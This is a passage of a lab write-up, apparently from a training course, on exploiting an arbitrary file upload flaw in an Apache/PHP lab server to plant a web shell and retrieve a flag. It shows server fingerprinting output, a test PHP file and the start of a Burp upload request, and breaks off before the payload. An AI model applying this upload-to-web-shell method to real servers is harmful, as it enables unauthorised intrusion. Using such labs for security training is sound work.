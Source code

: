 #### Lab Environment

**Vulnerable Apache IV**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The target server has not been properly secured against <u>arbitrary file upload</u> and <u>execution vulnerability</u>.

**Objective**: Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/`:
```
https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.136.144], JQuery, PHP[5.5.9-1ubuntu4.25], 📌 Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`echo '<?php echo "test" ?>' > ./test.php`

![Lab - Vulnerable Apache IV](./assets/file_and_resource_attacks_lab_vulnerable_apache_iv.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
Content-Type: multipart/form-data; boundary=---------------------------220412119661351292736528440
Content-Length: 250
Origin: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
```